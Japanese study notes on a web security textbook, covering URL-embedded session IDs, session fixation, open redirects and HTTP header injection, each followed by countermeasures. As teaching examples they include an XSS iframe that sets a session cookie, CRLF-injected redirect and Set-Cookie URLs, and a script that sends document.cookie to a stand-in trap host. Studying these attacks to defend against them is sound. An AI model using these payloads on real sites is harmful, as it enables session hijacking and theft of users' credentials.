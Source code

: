 # 徳丸本
- ## 4章 Webアプリケーションの機能別に見るセキュリティバグ(続き)
- ### 4.6 セッション管理の不備(続き)
- #### 4.6.3 URL埋め込みのセッションID
	- セッションIDをCookieではなく、URLに埋め込むようにしていると、RefererヘッダからセッションIDが漏洩する可能性がある
	- ただし、セッションIDが漏洩するためには、以下の2つの条件が必要である
		- サイト内に外部サイトへのリンク(=悪意を持ったサイトへのリンク)を作成出来る
		- Referrer-Policyをunsafe-urlなどにしている
			- [参考](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Referrer-Policy)
			- Referrer-Policyを使うことで、Refererの送信を制限することが出来る(Referrer-PolicyのスペルはRefererではなく、Referrer)
			- レスポンス中のHTTPヘッダで制限する方法とHTMLで制限する方法がある
			- unsafe-urlは常にオリジン、パス、クエリパラメータをRefererとして送信する
			- デフォルトはstrict-origin-when-cross-originで、この場合、同一オリジンへのリクエストでしかクエリパラメータを送信しない
- #### 4.6.4 セッションIDの固定化(session fixation)
	- 攻撃者が用意したセッションIDを利用者に使わせる
	- 利用者が個人情報を入力すると、攻撃者がそれを見ることが出来る
	- セッションIDをURLに埋め込んでいるサイトの場合、攻撃が簡単
		- 利用者がURLを注意深く見ていたら失敗するが
		- 攻撃者がセッションID付きのURLを利用者に送信して、新規登録させる
			- セッションIDは攻撃者が用意する
		- 利用者が新規登録して、セッションIDに個人情報が紐づく
			- 新規登録が完了する前でも、入力画面と確認画面があった時、確認画面から入力画面に戻った時に入力値を復元するためにセッション変数を使っていると、session fixationが可能
		- セッションアダプションが有効なサイトの場合、攻撃者は適当なセッションIDを作れば良い(ABCとか何でも良い)
			- セッションアダプションとは、未知のセッションIDを受け入れるというもので、利用者が勝手に作ったセッションIDに情報を紐づける
				- PHPやASP.NETなどでセッションアダプションが有効になっている
			- セッションアダプションが有効でない場合、サーバが生成したセッションIDにしか情報を紐付けない
		- セッションアダプションが有効でないサイトの場合、攻撃者がサイトを閲覧して、有効なセッションIDを発行して、これを利用者に使わせる
			- といっても、[この記事](https://www.ubsecure.jp/blog/session_fixation)の図のように、サイトにアクセスしたタイミングでセッションIDが発行されるようになっていないと攻撃は成立しない
			- 新規登録してからセッションIDが発行される仕組みなら、既にそのセッションIDに攻撃者の情報が紐づいてしまうので、そのセッションIDを使った利用者はおかしいと思うはずなので
	- セッションIDをCookieで管理しているサイトの場合はXSSやHTTPヘッダインジェクションを利用する
		- XSSの場合は以下のようなiframeを埋め込む
			- ```html
			  <iframe width=320 height=100 src="http://example.jp?keyword=<script>
			  document.cookie='PHPSESSID=ABC'
			  </script>"></iframe>
			  ```
			- iframeは隠しておいて、サイト(http://example.jp)へのログインを促す
	- 対策
		- リクエスト中に含まれるセッションIDに情報を紐づけるのではなく、サーバ側で新たにセッションIDを生成し、これに情報を紐付け、このセッションIDをCookieにセットする(前のセッションIDは削除する)
		- トークンを利用する方法
		  id:: 64e19f0d-9e36-4788-8940-87cf0bc35d12
			- ↑が出来ない時(そんな時ある？)に使う
			- 新規登録したタイミングで、セッションIDに情報を紐付けるだけでなく、サーバでトークンを生成し、このトークンをセッション変数とCookieにセットする
			- 認証後のページはトークンを検証する
			- 攻撃者はトークンを知らないため、利用者の個人情報を見ることが出来ない
- ### 4.7 リダイレクト処理にまつわる脆弱性
- #### 4.7.1 オープンリダイレクト
  id:: 64e1a150-38ae-4857-9ce1-ca4d7d02bfbc
	- リダイレクトはLocationヘッダを使う方法と、JavaScriptを使う方法(location.href="...")がある
	- リダイレクト先を外部から指定できるようになっている(クエリパラメータなどで)と、個人情報を盗まれる可能性がある
		- リダイレクト先がオープンであるという意味で、オープンリダイレクト
	- 攻撃例
		- ログイン画面 → ログイン完了画面というページ遷移を考える
		- 普通なら、ログイン画面のformタグのactionでログイン完了画面を指定することでページ遷移を行うが、actionで指定した処理がLocationヘッダを返すことで、ログイン完了画面へのページ遷移を行う場合を考える
		- ログイン画面はクエリパラメータで遷移先のURLを受け取る
		- このURLをformタグで送信し、actionで指定した処理がLocationヘッダの値にセットする
		- 攻撃者はクエリパラメータのURLに罠サイトを指定して、これを利用者が閲覧するように仕向ける(`http://example.jp/login?url=http://trap.example.com`など）
		- 利用者がログイン画面でログインボタンを押すと、罠サイトに遷移する
		- 罠サイトは正規サイトのログイン失敗画面に似せて作る
		- 利用者はパスワードを間違えたと思って、再度IDとパスワードを入力してログインボタンを押す
		- この時に攻撃者のサーバにIDとパスワードが送られるようにする
		- さらに、正規サイトのログイン完了画面に遷移するようにしておけば、利用者は今度はログインが成功したと思い、気づかれにくくなる
	- 対策
		- リダイレクト先のURLを固定し、外部から指定出来ないようにする
		- やむを得ず、リダイレクト先を可変にしたい場合は、リダイレクト先のURLを直接指定せず番号指定にする
			- ページ番号のURLの対応表は外部から見えないファイルやデータベースで管理する
		- 番号指定にしたくない時は、リダイレクト先のドメイン名を検証する
			- 検証漏れが多いので注意
			- 例えば、URLが`http://example.jp/`から始まっていたらOKとすると、HTTPヘッダインジェクションで回避される
	- 外部ドメインにリダイレクトする場合は、クッションページを用意すると、被害を抑えられる
		- クッションページがないと、正規サイトに似せて作った罠サイトが作られていると、リダイレクトしても、まだ正規サイト内にいると思ってしまうため
- #### 4.7.2 HTTPヘッダ・インジェクション
	- 外部からのパラメータを元にHTTPヘッダとして出力していると、HTTPヘッダ・インジェクションが発生する
	- 外部ドメインへのリダイレクト、任意のCookie生成、偽画面の表示といった攻撃が可能
	- 外部ドメインへのリダイレクト
		- オープンリダイレクトで説明した、遷移先のURLをクエリパラメータで受け取るログイン画面(`http://example.jp/login?url=...`)を考える
		- URLの検証を行なっていて、`http://example.jp/`で始まっていない場合はエラーとする
		- しかし、`http://example.jp/login?url=http://example.jp/%0D%0ALocation:+http://trap.example.com`にアクセスすると、検証をクリアし、http://trap.example.comにリダイレクトしてしまう
		- `%0D%0A`はCRLFを意味していて、これによってプログラムは2行のLocationヘッダを出力する
			- ```
			  Location: http://example.jp/
			  Location: http://trap.example.com
			  ```
		- Apacheはプログラムから複数のLocationヘッダを受け取った時、最後のLocationヘッダのみをレスポンスとして返す
	- 任意のCookie生成
		- `http://example.jp/login?url=http://example.jp/%0D%0ASet-Cookie:+PHPSESSID=ABC`にアクセスすると、Cookieがセットされる
		- session fixationに利用する
	- 偽画面の表示
		- `%0D%0A`を2回連続させることで、その後の文字列がレスポンスボディと見做される
		- 正規サイトのコンテンツも一緒に表示されてしまうが、CSSで隠すことが出来る
		- 偽のフォームを作成して個人情報を盗むことが出来る
			- ドメインは正規のものであるため信用してしまう可能性がある
		- JavaScriptを実行してCookieを盗んだり出来る
			- `?url=http://example.jp/%0D%0A%0D%0A<script>fetch('http://trap.example.com?sid='%2Bdocument.cookie)</script>`など
	- 対策
		- 外部からのペラメータをレスポンスヘッダとして出力しない
		- LocationヘッダやSet-Cookieヘッダの出力を専用APIに任せる
			- Ginの場合、ctx.Redirectやctx.SetCookieなど
			- 中身の処理がどうなっているのか後で調べる
	- HTTPヘッダ・インジェクションに関連して、HTTPレスポンス分割攻撃というのがある([参考](http://www.techmatrix.co.jp/product/jtest/security/httpresponsesplitting.html))
		- HTTP/1.1では複数のリクエストをまとめて送信することが出来て、この場合レスポンスもまとめて返される
		- 1つ目のリクエストでHTTPヘッダ・インジェクションをして、偽のコンテンツを2つ目のリクエストに対するレスポンスとして誤認させ、キャッシュサーバに偽コンテンツをキャッシュさせる(キャッシュ汚染)